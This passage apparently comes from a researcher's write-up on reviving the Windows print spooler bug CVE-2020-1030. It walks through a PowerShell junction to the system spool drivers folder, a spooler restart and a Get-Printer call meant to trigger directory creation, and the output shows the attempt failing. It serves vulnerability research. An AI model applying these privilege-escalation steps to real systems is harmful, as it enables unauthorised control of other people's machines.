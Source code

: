 ![cve-2020-1030-poc-bypass-take1-IsValidSpoolDir2](images/CVE-2020-1030/cve-2020-1030-poc-bypass-take1-IsValidSpoolDir2.png)

OK. Can I revive the original *CVE-2020-1030* by using this new trick?  Set a [reparse point](https://docs.microsoft.com/en-us/windows/win32/fileio/reparse-points) on my *junction* directory. 
	
```powershell
PS C:\Users\User\Desktop> New-Item -ItemType Junction -Path "C:\Users\User\Desktop\junction"  -Target "C:\WINDOWS\system32\spool\drivers\x64"
```

At this point, we have manually recreated steps 1 and 2 of the original PoC. We have set our user directory to mimic the original PoC. Now we simply need to restart the spooler (which I manually performed using *services.msc*) and force a call to `EnumPrinter` (triggering the `BuildPrinterInfo` -> `CreateDirectory` primitive path), which can be done with a call to with `Get-Printer`.

```powershell
PS C:\Users\User\Desktop> Get-Printer

Name                           Type   DriverName                PortName   
----                           ----   ----------                --------   
Microsoft XPS Document Writer  Local  Microsoft XPS Document... PORTPROMPT:
Microsoft Print to PDF         Local  Microsoft Print To PDF    PORTPROMPT:
Fax                            Local  Microsoft Shared Fax D... SHRFAX:    
CVE-2020-1030                  Local  Microsoft Print To PDF    PORTPROMPT:
```
<sub> Forcing call to `EnumPrinter` using *Get-Printer* cmdlet</sub>

```powershell
PS C:\Users\User\Desktop> ls C:\Windows\System32\spool\drivers\x64\4
ls : Cannot find path 'C:\Windows\System32\spool\drivers\x64\4' because it does not exist.
```

Hmm. No go. The directory I expected to create isn't there. What happened?
